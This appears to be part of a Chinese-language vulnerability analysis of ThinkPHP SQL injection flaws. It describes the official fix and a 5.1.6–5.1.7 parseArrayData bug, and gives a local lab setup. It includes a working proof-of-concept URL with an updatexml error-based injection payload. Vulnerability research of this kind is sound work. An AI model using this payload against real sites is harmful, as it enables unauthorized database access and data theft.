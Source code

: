 ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoNVB2GptFv6iaUlfRTibK9yKjDWPsSVyCg6dLVNDMzFUAUQ3iaibRYicQVXTHWKuXibqPjheWI3mlw6wnQ/640?wx_fmt=png)

#### **漏洞修复**

官方的修复方法是：在拼接字符串前对变量进行检查，看是否存在 )、# 两个符号。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoNVB2GptFv6iaUlfRTibK9yK3d622YAJ64dfNvLhn0RIhFtRg2C7wPKzx5E18DAJt9icUkvFO2DLicVA/640?wx_fmt=png)

#### **攻击总结**

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoNVB2GptFv6iaUlfRTibK9yK078oHOia5wXUTSDBaibTe4WVgChctEnVgOr217wwrZQNFHO2SJk9fv5Q/640?wx_fmt=png)

6

**5.1.6<=ThinkPHP<=5.1.7**

#### **漏洞概要**

本次漏洞存在于 Mysql 类的 parseArrayData 方法中由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL 注入漏洞 的产生。

漏洞影响版本：5.1.6<=ThinkPHP<=5.1.7 (非最新的 5.1.8 版本也可利用)。  

#### **漏洞环境**

下载 composer.phar，把他放到 tp 的目录下。通过一下命令来配置国内源。

```
php composer.phar config -g repo.packagist composer https://mirrors.aliyun.com/composer/
```

通过以下命令来获取测试环境代码：

```
php composer.phar install
```

将 composer.json 文件的 require 字段设置成如下

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoNVB2GptFv6iaUlfRTibK9yKSjzmoVr9GZBqrdAfrU8nQ34lPuwYNX5ccrQRVJ4QjIRZuK5eyCsSmQ/640?wx_fmt=png)  
然后执行 composer update 

并将 application/index/controller/Index.php 文件代码设置如下：

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoNVB2GptFv6iaUlfRTibK9yKVUwcFqAywMLAvdBWWtEHIrc0xMz606qDpXsicXMPeT4ialXwkHWJZghw/640?wx_fmt=png)  
在 config/database.php 文件中配置数据库相关信息，并开启 config/app.php 中的 app_debug 和 app_trace 。

创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(id int primary key auto_increment,username varchar(50) not null);
insert into users(id,username) values(1,'mochazz');
```

POC:`http://127.0.0.1:82/index.php/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0`  
即可触发 SQL 注入漏洞
